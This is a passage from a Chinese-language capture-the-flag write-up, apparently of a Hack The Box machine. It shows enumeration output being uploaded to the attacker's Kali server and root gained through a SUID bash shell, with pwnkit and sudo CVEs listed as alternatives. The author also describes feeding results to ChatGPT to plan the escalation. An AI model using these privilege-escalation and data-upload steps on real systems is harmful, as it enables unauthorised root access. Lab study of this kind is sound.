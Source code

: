 Kali收到输出文件
```bash
┌──(root㉿kali)-[/home/kali/Desktop]
└─# ~/.local/bin/uploadserver
File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.68 - - [15/Jun/2025 01:29:05] [Uploaded] "linpeas_output.txt" --> /home/kali/Desktop/linpeas_output.txt
10.10.11.68 - - [15/Jun/2025 01:29:05] "POST /upload HTTP/1.1" 204 -
```

- **将结果上传CHAT-GPT进行分析**

### Polkit权限策略分析提权

#### ✅ 推荐步骤汇总：

1. **首先尝试：**

   ```bash
   /tmp/bash -p
   whoami
   ```

2. **如果无效，再试 CVE-2021-3156 或 CVE-2021-4034（pwnkit）**

3. **检查 container 逃逸可行性，尝试 `unshare` 等工具**

4. **结合 capabilities 和 suid 程序找提权点**
```bash
enzo@planning:~$ /tmp/bash -p
bash-5.2# whoami
root
bash-5.2# cat /root/root.txt
794eb8b85207943119ea5def75c0d091
```

### 另一种提权方法

在linpeas输出中发现crontab-ui进程：
```bash
╔══════════╣ Analyzing Github Files (limit 70)
drwxr-xr-x 2 root root 4096 Feb 28 19:03 /usr/lib/node_modules/crontab-ui/.github
drwxr-xr-x 2 root root 4096 Feb 28 19:03 /usr/lib/node_modules/crontab-ui/node_modules/balanced-match/.github
drwxr-xr-x 3 root root 4096 Feb 28 19:03 /usr/lib/node_modules/crontab-ui/node_modules/busboy/.github
drwxr-xr-x 2 root root 4096 Feb 28 19:03 /usr/lib/node_modules/crontab-ui/node_modules/call-bind-apply-helpers/.github
drwxr-xr-x 2 root root 4096 Feb 28 19:03 /usr/lib/node_modules/crontab-ui/node_modules/call-bound/.github
drwxr-xr-x 2 root root 4096 Feb 28 19:03 /usr/lib/node_modules/crontab-ui/node_modules/dunder-proto/.github
drwxr-xr-x 2 root root 4096 Feb 28 19:03 /usr/lib/node_modules/crontab-ui/node_modules/es-define-property/.github
drwxr-xr-x 2 root root 4096 Feb 28 19:03 /usr/lib/node_modules/crontab-ui/node_modules/es-errors/.github
drwxr-xr-x 2 root root 4096 Feb 28 19:03 /usr/lib/node_modules/crontab-ui/node_modules/es-object-atoms/.github
drwxr-xr-x 2 root root 4096 Feb 28 19:03 /usr/lib/node_modules/crontab-ui/node_modules/filelist/node_modules/brace-expansion/.github
drwxr-xr-x 2 root root 4096 Feb 28 19:03 /usr/lib/node_modules/crontab-ui/node_modules/function-bind/.github
drwxr-xr-x 2 root root 4096 Feb 28 19:03 /usr/lib/node_modules/crontab-ui/node_modules/get-intrinsic/.github
drwxr-xr-x 2 root root 4096 Feb 28 19:03 /usr/lib/node_modules/crontab-ui/node_modules/get-proto/.github
drwxr-xr-x 2 root root 4096 Feb 28 19:03 /usr/lib/node_modules/crontab-ui/node_modules/gopd/.github
```